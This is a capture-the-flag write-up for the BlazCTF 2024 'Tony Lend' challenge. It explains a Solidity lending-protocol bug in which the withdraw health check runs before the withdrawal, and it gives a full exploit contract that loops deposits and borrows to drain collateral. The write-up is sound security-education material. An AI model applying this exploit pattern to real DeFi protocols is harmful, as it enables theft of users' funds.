

# Tony Lend

> [!NOTE]  
> Medium  
> Source: https://github.com/fuzzland/blazctf-2024/tree/main/tony-lend

The Tony Lend challenge was based on a relatively simple [curve.fi](https://curve.fi/)-based lending protocol implemented in Solidity.
`TonyLend.sol` allowed borrowing one of two assets while having these assets deposited as collateral in the protocol,
which is why the challenge initially seemed to require manipulating the `Curve` pool-based price oracle,
but in reality contained a bug which allowed to bypass the collateral check when withdrawing.
The challenge description contains nothing useful for solving it:

> Tony eats cats and dogs, and builds lending platform that competes with Trump's cryptocurrency.

## TLDR

`TonyLend`'s `withdraw` method calls `calculateHealthFactor` and checks the result **before** performing the withdrawal calculations,
allowing a user to pass the collateral check and then withdraw all of their deposited funds,
the necessary amount of which can be amassed by continuously borrowing and depositing assets.
Tony Lend 2 contained a fix of the `withdraw` bug, and required exploitation of the `Curve` StableSwap-NG Oracle vulnerability.

## Analysis

Tony Lend was one of the more complex challenges in the CTF in terms of setup,
containing multiple steps with lots of different contracts being initialized.
We can start unwinding the challenge from the other side, however,
by looking at `Challenge.sol`'s `isSolved` implementation, and figuring out how we
can get it to count the challenge as solved:

```solidity
function isSolved() external view returns (bool) {
    return usde.balanceOf(address(0xc0ffee)) >= 21926 ether;
}
```

`usde` here is an OpenZeppelin-based `ERC20` token with 18 decimals,
with `1e6` (1 million) tokens of total supply minted when it is initialized in the `Challenge` contract.
`9e5` of these tokens are added as the base liquidity for a `Curve` StableSwap-NG plain pool,
and `8e4` are transferred to the `TonyLend` lending protocol for it to be able to function.
The only other holder of `usde` is the `Challenge` contract itself,
and there's no way besides the additional `claimDust` method to transfer it anywhere else:

```solidity
function claimDust() external {
    require(!claimed, "Already claimed");
    claimed = true;
    usde.transfer(msg.sender, 1e4 ether);
    usdc.transfer(msg.sender, 1e4 * 1e6);
}
```

Judging by what we know now, there's an easy way we can get approximately `20000 ether` worth of `usde`:
`10000` are transferred to us by `claimDust`, and then we can swap `10000 usdc` for `usde` using the `swap` method.
This, however, still leaves us `1926 ether` worth of `usde` short.
Knowing this, lets move on to analyzing the `TonyLend` protocol,
since it's one of the two systems holding `usde` in the challenge,
and trying to exploit `Curve` straight away doesn't make sense.

`TonyLend` contains two places where tokens are `transfer`red from it to the user,
and two places where tokens are `transferFrom`ed to it: `withdraw`/`borrow` and
`deposit`/`repay`, respectively. Both `withdraw` and `borrow` contain "health factor"
checks to validate that the user's deposited "collateral" assets will be enough to cover
the borrowed assets after the operation is complete. The health factor calculation is pretty straightforward, and consists of simply summing the deposited and borrowde assets'
values:

```solidity
function calculateHealthFactor(address _user) public view returns (uint256) {
    uint256 totalCollateralInEth = 0;
    uint256 totalBorrowedInEth = 0;

    for (uint256 i = 0; i < assetCount; i++) {
        Asset storage asset = assets[i];
        UserAccount storage account = userAccounts[_user];

        uint256 collateralInEth = account.deposited[i] * getAssetPrice(i);
        uint256 borrowedInEth = account.borrowed[i] * getAssetPrice(i);

        totalCollateralInEth += collateralInEth;
        totalBorrowedInEth += borrowedInEth;
    }

    if (totalBorrowedInEth == 0) {
        return type(uint256).max;
    }

    return totalCollateralInEth * PRECISION / totalBorrowedInEth;
}
```

However, while `borrow`
calculates this value via `calculateHealthFactor` **after** performing the operation,
`withdraw` does it **before**, meaning that we can practically `withdraw` all our assets
if our account is originally in a "healthy" state without too many borrowed assets.

This bug can be exploited in a pretty funny way: we can continuously `borrow` and `deposit`
the same asset over and over again, and once we accrue enough `usde`, we can just `withdraw` it all and send it to `0xc0ffee`.

## Solution

Writing the solution script is relatively simple, since we do not need to carefully
calculate the exact amounts of anything, and can instead just operate with our whole `usde` balance. Since multiple consecutive actions are required, its better to run
them in a single transaction using a contract:

```solidity
contract SolveContract {
    uint256 constant USDE_DECIMALS = 1e18;
    uint8 constant USDE_INDEX = 0;

    constructor(Challenge challenge) {
        challenge.claimDust(); // 1. Get 1e4 of each token

        TonyLend tonyLend = challenge.tonyLend();
        ICurve curvePool = challenge.curvePool();
        ERC20 usde = challenge.usde();

        usde.approve(address(curvePool), type(uint256).max);
        usde.approve(address(tonyLend), type(uint256).max);

        // 2. Deposit and borrow USDE since different variables account for borrowed and deposited amounts.
        for (uint256 i = 0; i < 3; i++) {
            uint256 balance = usde.balanceOf(address(this));
            tonyLend.deposit(USDE_INDEX, balance);
            tonyLend.borrow(USDE_INDEX, balance);
        }

        // 3. Withdraw all thanks to the health factor check bug.
        tonyLend.withdraw(USDE_INDEX, 21926 * USDE_DECIMALS); // value taken from isSolved()
        usde.transfer(address(0xc0ffee), usde.balanceOf(address(this)));

        selfdestruct(payable(msg.sender));
    }
}
```

The full solution script is available in the [./Solve.s.sol](./Solve.s.sol) file.
Running it requires specifying the actual script contract using the `--tc Solve` `forge` flag.


